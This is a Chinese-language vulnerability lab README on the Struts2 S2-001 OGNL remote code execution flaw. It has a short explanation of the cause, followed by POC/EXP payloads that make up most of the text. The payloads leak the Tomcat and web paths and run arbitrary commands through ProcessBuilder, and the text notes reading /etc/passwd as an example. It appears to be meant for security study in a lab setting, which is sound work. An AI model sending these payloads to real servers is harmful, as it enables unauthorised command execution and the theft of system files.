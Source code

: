# S2-001 远程代码执行漏洞

## 原理

参考 <http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html>

> 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

## POC && EXP

获取tomcat执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

[![img](https://github.com/girlkb/vulhub/raw/master/struts2/s2-001/1.jpeg)](https://github.com/girlkb/vulhub/blob/master/struts2/s2-001/1.jpeg)